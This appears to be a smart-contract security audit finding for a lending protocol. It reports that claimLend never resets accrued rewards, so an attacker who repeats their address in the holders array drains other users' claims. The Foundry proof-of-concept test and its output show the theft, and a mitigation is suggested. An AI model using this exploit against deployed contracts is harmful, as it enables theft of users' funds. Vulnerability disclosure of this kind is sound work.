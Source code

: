 Zany Magenta Otter

High

# An attacker can steal another user's claim.

### Summary

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L370

In CoreRouter.sol

```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
       
        // ...
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
}
function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
        return amount;
}
```

grantLendInternal transfers the amount of lendAccrued of user.
But the function never reset the lendAccrued after transfer. 
So attacker can receive the amount in next loop.


### Root Cause

N/A

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. The attacker identifies users who have supplied funds.

2. They then insert multiple instances of their own address before the other users' addresses in the holders array and call claimLend.

3. As a result, the attacker receives the claim repeatedly for each occurrence of their address, continuing until the contract's lendBalance is exhausted.

### Impact

As any users can steal other users' claim, it's high impact

### PoC

In TestLendAccrual.t.sol

- Add following import

import "forge-std/console2.sol";

- Add following function

```solidity
function test_steal_claim() public {
        // Supply different amounts with two users
        uint256 user1Supply = 500e18;
        uint256 user2Supply = 1000e18;
        (, address lToken) = _supply(user1Supply, user1);
        _supply(user2Supply, user2);

        address lendToken = lendtroller.getLendAddress();

        // Advance time
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Claim for both users
        address[] memory holders = new address[](4);
        holders[0] = user1;
        holders[1] = user1;
        holders[2] = user1;
        holders[3] = user2;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);

        vm.prank(user1);
        coreRouter.claimLend(holders, lTokenArray, false, true);

        console2.log("balance of user1 = ", IERC20(lendToken).balanceOf(user1));
        console2.log("balance of user2= ", IERC20(lendToken).balanceOf(user2));
        
}
```

- Run command

forge test --mt test_steal_claim -vv

- Result

[PASS] test_steal_claim() (gas: 851053)
Logs:
  balance of user1 =  99999999999999999
  balance of user2=  0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 6.57ms (1.27ms CPU time)




As the results show, user1 receives the entire claim, while user2 receives nothing, even though user2 supplied twice as much as user1.



### Mitigation

In grantLendInternal function 

Need to add any reset function of lendAccrued of user.
And consider revert when amount <= lendBalance.